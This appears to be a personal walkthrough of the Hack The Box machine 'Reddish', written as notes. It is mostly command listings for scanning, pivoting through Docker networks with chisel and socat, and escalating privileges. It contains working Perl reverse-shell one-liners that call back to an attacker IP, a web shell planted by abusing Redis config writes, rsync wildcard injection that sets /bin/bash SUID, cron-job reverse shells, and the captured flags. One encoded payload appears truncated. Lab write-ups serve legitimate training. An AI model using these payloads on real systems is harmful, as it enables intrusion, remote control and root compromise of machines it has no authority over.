

## init
```bash
ping -c 1 10.10.10.94

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.10.94 -oG allPorts
nmap -sCV -p1880 10.10.10.94 -oN targeted

# ans
PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error


whatweb 10.10.10.94:1880
# We cannot get, but we can send POST

curl -s -X POST "http://10.10.10.94:1880"
curl -s -X POST "http://10.10.10.94:1880" | jq # to view json result

# ans
{
  "id": "fe3b8cb2a67e3a14547f5f797a7d0f3e",
  "ip": "::ffff:10.10.14.36",
  "path": "/red/{id}"
}

```


```bash
nc -nlvp 443

```


```bash
# Then click on deploy
# NOw we have access to the container

which nc
which python
which perl

# Search on browser reverse shell monkey pentester
# Open another console with nc -nlvp 443 running

# Get perl oneliner 
perl -e 'use Socket;$i="10.10.14.36";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' # put real ip and port (10.10.14.36:443)

# new 10.10.15.66
perl -e 'use Socket;$i="10.10.15.66";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm

export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
source /etc/skel/.bashrc

stty rows 87 columns 187

hostname
# ans
nodered

hostname -I
# ans
172.19.0.3 172.18.0.2

ip a

# ans
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth1@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
17: eth0@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever

# We can note all the ip's with its respective machine

nodered --- 172.19.0.3/16
        --- 172.18.0.2/16

# We need to do a bash script to read all ports in the machine (like /24)

touch hostDiscovery.sh
chmod +x hostDiscovery.sh

base64 -w 0 hostDiscovery.sh
# ans
IyEvYmluL2Jhc2gKCmhvc3RzPSgiMTcyLjE4LjAiICIxNzIuMTkuMCIpCgpmb3IgaG9zdCBpbiAke2hvc3RzW0BdfTsgZG8KICAgIGVjaG8gLWUgIlxuWytdIEVudW1lcmF0aW5nICRob3N0LjAvMjRcbiIKICAgIGZvciBpIGluICQoc2VxIDEgMjU0KTsgZG8KICAgICAgICB0aW1lb3V0IDEgYmFzaCAtYyAicGluZyAtYyAxICRob3N0LiRpIiAmPiAvZGV2L251bGwgJiYgZWNobyAiWytdIEhvc3QgJGhvc3QuJGkgLSBBQ1RJVkUiICYKICAgIGRvbmU7IHdhaXQKZG9uZQ==

# Paste into remote machine, decode and save into another file

cd /tmp
<>
echo "IyEvYmluL2Jhc2gKCmhvc3RzPSgiMTcyLjE4LjAiICIxNzIuMTkuMCIpCgpmb3IgaG9zdCBpbiAke2hvc3RzW0BdfTsgZG8KICAgIGVjaG8gLWUgIlxuWytdIEVudW1lcmF0aW5nICRob3N0LjAvMjRcbiIKICAgIGZvciBpIGluICQoc2VxIDEgMjU0KTsgZG8KICAgICAgICB0aW1lb3V0IDEgYmFzaCAtYyAicGluZyAtYyAxICRob3N0LiRpIiAmPiAvZGV2L251bGwgJiYgZWNobyAiWytdIEhvc3QgJGhvc3QuJGkgLSBBQ1RJVkUiICYKICAgIGRvbmU7IHdhaXQKZG9uZQ==" | base64 -d > hostDiscovery.sh

chmod +x hostDiscovery.sh
./hostDiscovery.sh


[+] Enumerating 172.18.0.0/24

[+] Host 172.18.0.2 - ACTIVE
[+] Host 172.18.0.1 - ACTIVE

[+] Enumerating 172.19.0.0/24

[+] Host 172.19.0.4 - ACTIVE
[+] Host 172.19.0.3 - ACTIVE
[+] Host 172.19.0.2 - ACTIVE
[+] Host 172.19.0.1 - ACTIVE

cp hostDiscovery.sh portDiscovery.sh

base64 -w 0 portDiscovery.sh
# ans
IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpIHsKICAgIGVjaG8gLWUgIlxuWytdIFNhbGllbmRvLi4uXG4iCiAgICBleGl0IDEKfQoKIyBjdHJsICsgYwp0cmFwIGN0cmxfYyBJTlQKCmhvc3RzPSgiMTcyLjE4LjAuMSIgIjE3Mi4xOS4wLjEiICIxNzIuMTkuMC4yIiAiMTcyLjE5LjAuMyIpCgp0cHV0IGNpdmlzCmZvciBob3N0IGluICR7aG9zdHNbQF19OyBkbwogICAgZWNobyAtZSAiXG5bK10gU2Nhbm5pbmcgcG9ydHMgb24gJGhvc3RcbiIKICAgIGZvciBwb3J0IGluICQoc2VxIDEgMTAwMDApOyBkbwogICAgICAgIHRpbWVvdXQgMSBiYXNoIC1jICJlY2hvICcnID4gL2Rldi90Y3AvJGhvc3QvJHBvcnQiIDI+IC9kZXYvbnVsbCAmJiBlY2hvIC1lICJcdFsrXSBQb3J0ICRwb3J0IC0gT1BFTiIgJgogICAgZG9uZTsgd2FpdApkb25lCnRwdXQgY25vcm0=

<>

echo "IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpIHsKICAgIGVjaG8gLWUgIlxuWytdIFNhbGllbmRvLi4uXG4iCiAgICBleGl0IDEKfQoKIyBjdHJsICsgYwp0cmFwIGN0cmxfYyBJTlQKCmhvc3RzPSgiMTcyLjE4LjAuMSIgIjE3Mi4xOS4wLjEiICIxNzIuMTkuMC4yIiAiMTcyLjE5LjAuMyIpCgp0cHV0IGNpdmlzCmZvciBob3N0IGluICR7aG9zdHNbQF19OyBkbwogICAgZWNobyAtZSAiXG5bK10gU2Nhbm5pbmcgcG9ydHMgb24gJGhvc3RcbiIKICAgIGZvciBwb3J0IGluICQoc2VxIDEgMTAwMDApOyBkbwogICAgICAgIHRpbWVvdXQgMSBiYXNoIC1jICJlY2hvICcnID4gL2Rldi90Y3AvJGhvc3QvJHBvcnQiIDI+IC9kZXYvbnVsbCAmJiBlY2hvIC1lICJcdFsrXSBQb3J0ICRwb3J0IC0gT1BFTiIgJgogICAgZG9uZTsgd2FpdApkb25lCnRwdXQgY25vcm0=" | base64 -d > portDiscovery.sh # In remote machine

chmod +x portDiscovery.sh
# ans
[+] Scanning ports on 172.18.0.1

	[+] Port 1880 - OPEN

[+] Scanning ports on 172.19.0.1


[+] Scanning ports on 172.19.0.2

	[+] Port 6379 - OPEN

[+] Scanning ports on 172.19.0.3

	[+] Port 80 - OPEN

```

### Using chisel
```bash
# Download chisel from github repo
# Compresing file
du -hc chisel
go build -ldflags "-s -w" .
du -hc chisel
upx brute chisel
du -hc chisel

# We need to send chisel file to the victim's machine

nc -nlvp 445 < chisel # local machine
cat > chisel < /dev/tcp/10.10.15.66/445

md5sum chisel # in both machines to compare file integrity

chmod +x chisel
./chisel

./chisel server --reverse -p 1234 # in local machine
ls

# We can ony donwload chisel released file in .gz format
gunzip chisel

mv chisel chisel

./chisel client 10.10.15.66:1234 R:127.0.0.1:80:172.19.0.3:80 R:127.0.0.1:6379:172.19.0.2:6379

# in browser search localhost
# we can use nmap to scan port 6379 from our local machine

nmap -sCV -p6379 127.0.0.1 -oN remotePort

# We need to create php file
# Then, we need to install redis-tool
sudo apt install redis-tools

redis-cli -h 127.0.0.1 flushall
cat ediShell.txt | redis-cli -h 127.0.0.1 -x set crackit

redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4 # dir from url port 80

redis-cli -h 127.0.0.1 config set dbfilename "ediShell.php"

redis-cli -h 127.0.0.1 save

# Then, we can play with the URL
http://localhost/8924d0549008565c554f8128cd11fda4/ediShell.php?cmd=whoami

nodered --- 172.19.0.3/16
        --- 172.18.0.2/16

www --- [172.19.0.2]
        [172.20.0.3]

history # to view shell history
touch pwn_redis.sh

# *** Check marcos in nvin ***

# ICMP trace
tcpdump -i tun0 icmp -n

```
### Using SOCAT
```bash
parrot OS --- [10.10.15.66] (nc -nlvp 7979)

nodered --- 172.19.0.3/16 (4646 --- 10.10.15.66:7979) [SOCAT --- ./socat TCP-LISTEN:4646,fork tcp:10.10.15.66:7979]
        --- 172.18.0.2/16

www --- [172.19.0.2]
        [172.20.0.3]

# We need to open a new reverse shell with PERL one liner

# Search socat in browser and download a compiled binary version

mv socat-linux64 socat
<>

nc -nlvp 4654 < socat # in local machine
cat > socat < /dev/tcp/10.10.15.66/4654

# mapping (EXCALIDRAW)
./socat TCP-LISTEN:4545,fork tcp:10.10.15.66:5555 &

# send a reverse sjhel with perl oneliner. Use burpsute to do URL-encoded
perl -e 'use Socket;$i="172.19.0.4";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```


```bash
%70%65%72%6c%20%2d%65%20%27%75%73%65%20%53%6f%63%6b%65%74%3b%24%69%3d%22%31%37%32%2e%31%39%2e%30%2e%34%22%3b%24%70%3d%34%35%34%35%3b%73%6f%63%6b%65%74%28%53%2c%50%46%5f%49%4e%45%54%2c%53%4f%43%4b%5f%53%54%52%45%41%4d%2c%67%65%74%70%72%6f%74%6f%62%79%6e%61%6d%65%28%22%74%63%70%22%29%29%3b%69%66%28%63%6f%6e%6e%65%63%74%28%53%2c%73%6f%63%6b%61%64%64%72%5f%69%6e%28%24%70%2c%69%6e%65%74%5f%61%74%6f%6e%28%24%69%29%29%29%29%7b%6f%70%65%6e%28%53%54%44%49%4e%2c%22%3e%26%53%22%29%3b%6f%70%65%6e%28%53%54%44%4f%55%54%2c%22%3e%26%53%22%29%3b%6f%70%65%6e%28%53%54%44%45%52%52%2c%22%3e%26%53%22%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%22%29%3b%7d%3b%27

http://127.0.0.1/8924d0549008565c554f8128cd11fda4/ediShell.php?cmd=perl%20-e(url-encoded perl oneliner)

```

### In WWW mahcine
```bash
cd /home
cd somaro
ls

id
sudo -l

uname -a # system enumerating

cd /
find \-perm -4000 2>/dev/null # SUID permmissions

# cron taks
cat /etc/crontab
ls /var/spool/cron/crontabs/
ls /etc/cron.d

cat /etc/cron/backup.sh
# ans
*/3 * * * * root sh /backup/backup.sh # Every 3 minutes, root user use sh to run backup.sh script

cat /backup/backup.sh
# ans
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b

ls -l /var/www/html

# ans
drwxr-xr-x 3 root     root     4096 Jul 15  2018 8924d0549008565c554f8128cd11fda4
drwxr-xr-x 2 root     root     4096 Jul 15  2018 assets
drwxr-xr-x 2 www-data www-data 4096 Jul 15  2018 f187a0ec71ce99642e4f0afbd441a68b
-rw-r--r-- 1 root     root     2023 May  4  2018 index.html
-rw-r--r-- 1 root     root       17 May  4  2018 info.php

cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/
<>

echo "chmod u+s /bin/bash" > test.rdb
touch -- "-e sh test.rdb"

watch -n 1 ls -l /bin/bash $ # rswr perm
# ans
-rwsr-xr-x 1 root root 1029624 Nov  5  2016 /bin/bash

bash -p 

ping backup

# ans
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2): icmp_seq=1 ttl=64 time=0.049 ms

rsync://backup:873/src/rdb/
rsync://backup:873/src/

# ans
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,640 2025/05/23 10:01:29 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2025/05/23 10:01:29 proc
drwxr-xr-x          4,096 2018/07/15 17:42:39 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2025/05/23 10:01:31 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2025/05/24 05:18:07 sys
drwxrwxrwt          4,096 2025/05/24 05:26:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var

# We need to transfer socat to www machine
```

### Socat into www machine
```bash
# Fisrt, we need to create a simple pyton server
python3 -m http.server 8989 # localmachine

# In nodered, we need to open another port to listen local machine
./socat TCP-LISTEN:3322,fork TCP:10.10.15.66:8989 &

# in www machine use perl to oneliner
perl -e 'use File::Fetch; my $url = "http://172.19.0.4:3322/socat"; my $ff = File::Fetch->new(uri=>$url); my $file = $ff->fetch() or die $ff-> error'

exit 
cd /tmp

# in www machine, we need to create a sheel script that contains perl oneliner 
# then, w eneed to convert it in base64 

base64 -w 0 shell.sh
#  ans
IyEvYmluL2Jhc2gKCnBlcmwgLWUgJ3VzZSBTb2NrZXQ7JGk9IjE3Mi4yMC4wLjMiOyRwPTkwMDFzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn

# After that, we need to paste in www machine and decode it
<>
echo "IyEvYmluL2Jhc2gKCnBlcmwgLWUgJ3VzZSBTb2NrZXQ7JGk9IjE3Mi4yMC4wLjMiOyRwPTkwMDFzb2NrZXQoUyxQRl9yX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMi" | base64 -d > shell.sh

# then, we need to transfer files
rsync -a shell.sh rsync://backup:873/src/tmp/

# creating cron task and sending it to cron.d
echo "* * * * * root sh /tmp/shell.sh" > shell
rsync -a shell rsync://backup:873/src/etc/cron.d/

# checking
rsync rsync://backup:873/src/etc/cron.d/
#ans
drwxr-xr-x          4,096 2025/05/24 06:13:01 .
-rw-r--r--            102 2015/06/11 10:23:47 .placeholder
-rw-r--r--             29 2018/05/04 20:57:55 clean
-rw-r--r--             32 2025/05/24 06:11:35 shell

# after that, use socat i port 9001
./socat TCP-LISTEN:9001 STDOUT

# ans
./socat TCP-LISTEN:3131 STDOUT

# ans 
# /bin/sh: 0: can't access tty; job control turned off

whoami
hostname

# ans
backup

ip a
# ans

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
9: eth0@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.2/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever

cd /home
df -h

# ans
Filesystem      Size  Used Avail Use% Mounted on
overlay         5.3G  4.1G  1.2G  78% /
tmpfs            64M     0   64M   0% /dev
tmpfs           997M     0  997M   0% /sys/fs/cgroup
/dev/sda2       5.3G  4.1G  1.2G  78% /backup
shm              64M     0   64M   0% /dev/shm

# create dir and mount disk
mkdir /mnt/test
mount /dev/sda2 /mnt/test
cd /mnt/test
ls

cd root
cat root.txt
# b00bed1e4c27e76a8d22437636366034

cd ..
cd /etc/cron.d
ls

# we can create a reverse shell from backup machine to  local
cd /mnt/test/tmp

echo "IyEvYmluL2Jhc2gKCnBlcmwgLWUgJ3VzZSBTb2NrZXQ7JGk9IjEwLjEwLjE1LjY2IjskcD0zNjkzO3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Oyc=" | base64 -d > reve.sh

nc -nlvp 3693 # localmachine

cd ..
cd etc/cron.d
echo "* * * * * root sh /tmp/reve.sh" > reve

cd /home
cd somaro
cat user.txt

# a63c5400263fa1327fb19dfe7989d399
```
- Final schemas
